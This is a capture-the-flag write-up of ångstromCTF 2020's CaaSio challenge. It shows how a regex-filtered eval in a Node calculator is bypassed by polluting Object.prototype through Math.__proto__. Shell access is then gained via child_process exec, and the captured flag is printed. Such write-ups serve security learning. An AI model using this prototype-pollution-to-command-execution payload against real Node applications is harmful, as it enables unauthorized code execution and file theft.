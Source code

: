 ```yaml
---
title: "ångstromCTF 2020 - CaaSio Writeup"
date: 2020-03-19T8:44:29Z
---
```


For CaaSio we had access to a calculator. The source is [here](/ctf/angstrom/caasio/index.js).

Later in the execution our query is `eval`'d so obviously we need to run something interesting there.

There are a lot of details involved so I'll start with the basic ones.

```js
if (name.length > 10) {
    console.log("Your name is too long, I can't remember that!");
    return;
}
user.name = name;
if (user.name == "such_a_trusted_user_wow") {
    user.trusted = true;
}
```

The code above stops us from inputing a name bigger than 10 characters,
so no way you'll get your `such_a_trusted_user_wow`.

```js
while (user.queries < 3)
```

This stops us from making more than 3 queries, but we'll only need two!

```js
if (prompt.length > 200) {
    console.log("That's way too long for me!");
    continue;
}
```

To finish the boring stuff, we cannot send a command with more than 200 characters. 
Still, no problem.

Let's get to the interesting stuff.

```js
let reg = /(?:Math(?:(?:\.\w+)|\b))|[()+\-*/&|^%<>=,?:]|(?:\d+\.?\d*(?:e\d+)?)/g
// ......
if (!user.trusted) {
    prompt = (prompt.match(reg) || []).join``;
}
```

Given we are not trusted, queries we send are filtered by `reg`.
Effectively stopping most possible attempts.

```js
Object.freeze(global);
Object.freeze(Math);
```

This stops us from modifying `Math`, however it is only a shallow freeze.
This means that members of `Math` are not frozen, we will be taking advantage of that to get our trusted execution going!

So, starting with the regex, we can write `Math.any_kind_of_text`,
including `Math.__proto__`.
While `__proto__` cannot be reassigned, we can extend it, 
however we cannot write `Math.__proto__.obj`, as `obj` will be cut out.

Entering lambdas!
We can write `()=>` and while this does not make a multi line lambda, it allows us to make one action at a time.
Enabling composition!

We have our ingredients together!
First we need to get trusted.

```js
((Math)=>(Math.trusted=1))(((Math)=>(Math.__proto__))(Math))
```

You may be confused, in normal JS the code above looks like:

```js
function (Math) {
    Math.trusted = 1;
}(
    function (Math) {
        return Math.__proto__;
    }(Math)
);
```

Which in turn looks more like:

```js
function f(x) {
    return x.__proto__
}

function g(x) {
    return x.trusted = 1;
}

g(f(Math));
```

Why does this give us a trusted user?

`Math` inherits from `Object`, see [here](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Math), 
which means that when we mutate `Math.__proto__` we are mutating `Object.__proto__`, thus mutating every object, 
hence why `user.trusted` will be set to `1`.

So now we just need to read the file.

```js
const { exec } = require("child_process");

exec("cat /ctf/flag.txt", (error, stdout, stderr) => {
    console.log(`stdout: ${stdout}`);
});
```

Running the code above, minified, will yield the flag.

```
actf{pr0t0typ3s_4re_4_bl3ss1ng_4nd_4_curs3}
```